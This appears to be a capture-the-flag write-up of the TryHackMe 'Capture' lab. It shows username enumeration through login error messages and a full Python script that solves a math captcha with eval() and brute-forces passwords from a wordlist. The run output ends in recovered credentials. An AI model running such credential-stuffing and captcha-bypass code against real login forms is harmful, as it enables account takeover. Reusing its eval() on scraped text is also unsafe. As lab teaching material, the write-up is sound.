 ```yaml
---
title: TryHackMe - Capture
author: 0
date: 2023-05-10 16:00:00 +0800
categories: [thm, machine]
tags: [brute-force, username-enumeration, captcha-bypass, insufficient-anti-automation]
render_with_liquid: false
---
```


>SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

The application starts off with a homepage that includes just a simple login form. We got two downloadable files with a set of usernames and one file with a bunch of passwords.

![Homepage](/assets/img/thm-capture-homepage.png)

## Reconnaissance

When inputting credentials, we get a "User X not found" message which will allow us to enumerate existing users by going over the `usernames.txt` file and filtering out the requests that throw a different message than "User X not found".

![Username](/assets/img/thm-capture-username.png)

I started using burp intruder for this but after a few requests we need to fill in a captcha. This captcha is a simple calculation which is something we can solve by creating a python script.

![Captcha](/assets/img/thm-capture-captcha.png)

## Exploit

The python script makes a request to the login page, iterating over all usernames, solving the captcha if needed. Once it finds a username where the "User X not found" error isn't present, the script loops over all passwords.

```python
import requests
import sys
from bs4 import BeautifulSoup

headers = {"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
           "Content-Type":"application/x-www-form-urlencoded"}

def do_request(username, password):
    payload = f'username={username}&password={password}'
    response = requests.post(url + '/login', headers=headers, data=payload)
    
    # check if response needs a captcha to be solved
    soup = BeautifulSoup(response.text, 'html.parser')
    captcha_label = soup.find('label', text='Captcha enabled')
    if captcha_label:
        # Find captcha value on the page
        captcha_equation = captcha_label.find_next_sibling(text=True).strip()
        # Remove the last four characters " = ?"
        captcha_equation_stripped = captcha_equation[:-4]
        # Solve the captcha
        captcha_solved = eval(captcha_equation_stripped)
        # Set request payload to include solved captcha
        payload = payload + f'&captcha={captcha_solved}'
        response = requests.post(url + '/login', headers=headers, data=payload)
    return response

url = sys.argv[1]
count = 0

with open('usernames.txt') as usernames:
    for username in usernames:
        username = username.strip()
        response = do_request(username, 'password')
        count = count + 1
        username_exists = False
        # No error message so user exists
        if "does not exist" not in response.text:
            username_exists = True
            count_pw = 0
            with open('passwords.txt') as passwords:
                for password in passwords:
                    password = password.strip()
                    response = do_request(username, password)
                    count_pw = count_pw + 1
                    if "Invalid password" not in response.text:
                        print(f'CREDENTIALS FOUND: {username}:{password}')
                        sys.exit()
                    print(f'{count} - {username} - {response.status_code} - {username_exists} - {count_pw} - {password}')
        print(f'{count} - {username} - {response.status_code} - {username_exists}')

```

```bash
$ python3 exploit.py http://10.10.32.213
1 - rachel - 200 - False
2 - rodney - 200 - False
3 - corrine - 200 - False
4 - erik - 200 - False
5 - chuck - 200 - False
...
303 - dewitt - 200 - False
304 - hilario - 200 - False
305 - vilma - 200 - False
306 - hugh - 200 - False
307 - natalie - 200 - True - 1 - football
307 - natalie - 200 - True - 2 - kimberly
307 - natalie - 200 - True - 3 - mookie
307 - natalie - 200 - True - 4 - daniel
307 - natalie - 200 - True - 5 - love21
307 - natalie - 200 - True - 6 - drpepper
307 - natalie - 200 - True - 7 - brayan
307 - natalie - 200 - True - 8 - bullet
...
307 - natalie - 200 - True - 27 - arsenal
307 - natalie - 200 - True - 28 - pearljam
307 - natalie - 200 - True - 29 - fantasia
307 - natalie - 200 - True - 30 - angel2
CREDENTIALS FOUND: natalie:sk**REDACTED**rd
```

When logging in with the found credentials, we receive the flag.

![Flag](/assets/img/thm-capture-flag2.png)